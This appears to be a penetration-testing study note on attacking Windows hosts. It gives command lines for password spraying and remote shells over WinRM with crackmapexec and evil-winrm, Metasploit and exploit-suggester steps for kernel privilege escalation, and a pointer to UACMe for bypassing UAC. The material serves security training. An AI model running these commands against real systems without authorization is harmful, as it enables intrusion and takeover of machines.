 ### WinRM

Remote management, default running on 5985, 5986

2 tools will help exploit `crackmapexec` `evil-winrm`

`crackmap` support MSSql, WinRM, SMB, SSH

- In nmap output, the service maybe appear like `Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)`
- Use `crakmapexec winrm <target> -u administrator -p <pass_list>`
- When have user and password, we can use `crackmapexec winrm <target> -u administrator -p <password> -x <command>`

For remote shell
- Use `evil-winrm.rb -u administrator -p <password> -i <target>`

For MSF
- We can use module `winrm_script_exec` for remote shell
- Set host, password and username, port and payload and run.
  - `set FORCE_VBS true`
  - May not work, you can retry it about couple time.

### Windows kernel exploit

Typical type of exploit for this case
- Privilege escalation. Gainng higher privilege from init exploit

Windows run Windows NT, some tools for exploit windows kernel
- [Windows Exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Windows kernel exploits](https://github.com/SecWiki/windows-kernel-exploits)

Steps:
- When gain access, use `getprivs` to see privilege of account 
- To escalate it, in meterpreter try `getsystem` to escalate
- Try module `local_exploit_suggester`, this is port-exploit module, so set the exploit meterpreter session to be able to run. -> exploit.
  - Output all possiable module can use to continue exploit.
- In demo, use `m16_014_wmi_recv_notif`

Other tools:
- Collect `systeminfo` -> Copy to text file.
- `windows-exploit-suggester.py --update` update database
- `windows-exploit-suggester.py --database <database> --systeminfo <path_to_info>`

Other tools:
- Use the repo [Windows kernel exploits](https://github.com/SecWiki/windows-kernel-exploits)
- Get the exe of exploit and try to run
  - In meterpreter, go to TMP, `upload <exploit_path>` -> Run it.

### UAC

UAC is security feature is used to prevent unauthorized change from being made.

Tools to use:
- [UACMe](https://github.com/hfiref0x/UACME) ~ Over 60 exploit for UAC depend on Windows version.

